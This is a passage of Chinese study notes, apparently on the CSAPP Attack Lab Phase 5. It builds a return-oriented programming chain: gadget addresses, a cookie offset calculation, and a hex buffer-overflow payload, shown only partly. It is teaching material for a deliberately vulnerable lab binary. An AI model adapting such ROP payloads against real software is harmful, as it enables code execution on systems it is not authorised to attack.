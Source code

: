 - 同Phase 3

#### 分析

- 使用ROP
- 使用计算`%rsp`和偏移的值来找到存放cookie的地址
- 根据cookie前面存放的指令进行计算；（前面有10条指令）
- **注意：**`getbuf`执行`ret`后相当于进行了一次`pop`操作，`test`的栈顶指针`%rsp=%rsp+0x8`，所以`cookie`相对于此时栈顶指针的偏移量是`0x48`而不是`0x50`

~~~assembly
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

### 插入偏移地址

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

### 插入touch3的执行位置
~~~

![](C:\Github_io\source\img\csapp\attack_phase5.png)

- 二进制转十六进制

~~~
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
~~~